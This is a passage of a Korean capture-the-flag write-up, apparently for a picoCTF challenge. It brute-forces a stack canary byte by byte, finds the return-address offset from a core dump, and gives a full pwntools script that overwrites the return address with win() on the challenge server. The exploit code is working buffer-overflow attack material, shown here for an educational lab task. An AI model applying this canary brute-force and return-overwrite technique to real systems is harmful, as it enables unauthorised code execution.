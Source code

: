 ```python
            break
```
더미데이터로 카나리 직전까지 채우고, 프로그램의 반응을 기준으로 각 바이트(0x00~0xFF)를 순차적으로 대입합니다. 프로그램이 경고 문자열을 출력하지 않으면, 값을 누적하고 다음 바이트에 대입을 시도합니다. 이러한 과정을 총 4번 반복합니다.

```bash
$ python3 test2.py
[+] Found Canary: b'B'
[+] Found Canary: b'Bi'
[+] Found Canary: b'BiR'
[+] Found Canary: b'BiRd'
```
<br />

## 3. RET 덮어쓰기
```bash
$ python3 -q
>>> from pwn import *
>>> p = process("./vuln")
[+] Starting local process './vuln': pid 10788
>>> pay = cyclic(64) + b"DFGH" + cyclic(128)
>>> p.send(b"100\n")
>>> p.send(pay)
>>> p.wait()
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 10788)
>>> core = Corefile("./core.10788")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/core.10788'
    Arch:      i386-32-little
    EIP:       0x61616165
    ESP:       0xff90ca60
    Exe:       '/home/kali/pico/vuln' (0x8048000)
    Fault:     0x61616165
>>> cyclic_find(0x61616165)
16
```
카나리와 `RET`의 오프셋은 `0x10` 입니다. 프로세스를 다시 연결하고, 각 오프셋에 맞게 값을 넣어줍니다. 이후 `RET`을 `win()`의 주소로 덮으면 FLAG가 출력될 것입니다. 
```python
from pwn import *

host, port = "saturn.picoctf.net", 61149
context.log_level = "error"

cnry = b""
for i in range(4):
    for c in range(256): 
        # p = process("./vuln")
        p = remote(host, port)

        p.sendafter(b">", b"100\n")
        p.sendafter(b">", b"A"*0x40+cnry+bytes([c]))

        if b"Ok..." in p.recvall():
            cnry += bytes([c])
            print(f"[+] Found Canary: {cnry}")
            break

# p = process("./vuln")
p = remote(host, port)

p.sendafter(b">", b"100\n")
p.sendafter(b">", b"A"*0x40+cnry+b"B"*0x10+p32(0x8049336)) # win = 08049336
p.interactive()
```
